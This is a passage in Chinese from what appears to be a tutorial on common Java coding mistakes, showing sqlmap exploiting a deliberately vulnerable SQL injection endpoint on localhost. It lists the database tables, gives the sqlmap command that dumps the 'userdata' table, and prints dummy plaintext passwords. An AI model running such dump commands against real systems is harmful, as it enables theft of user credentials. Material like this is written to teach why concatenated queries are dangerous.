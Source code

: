 可以看到其中有一个敏感表 userdata：

```
Database: common_mistakes

[7 tables]

+--------------------+

| user               |

| common_store       |

| hibernate_sequence |

| m                  |

| news               |

| r                  |

| userdata           |

+--------------------+


```

第三步，查询 userdata 的数据：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test -D "common_mistakes" -T "userdata" --dump


```

你看，用户密码信息一览无遗。当然，你也可以继续查看其他表的数据：

```
Database: common_mistakes

Table: userdata

[2 entries]

+----+-------+----------+

| id | name  | password |

+----+-------+----------+

| 1  | test1 | haha1    |

| 2  | test2 | haha2    |

+----+-------+----------+


```
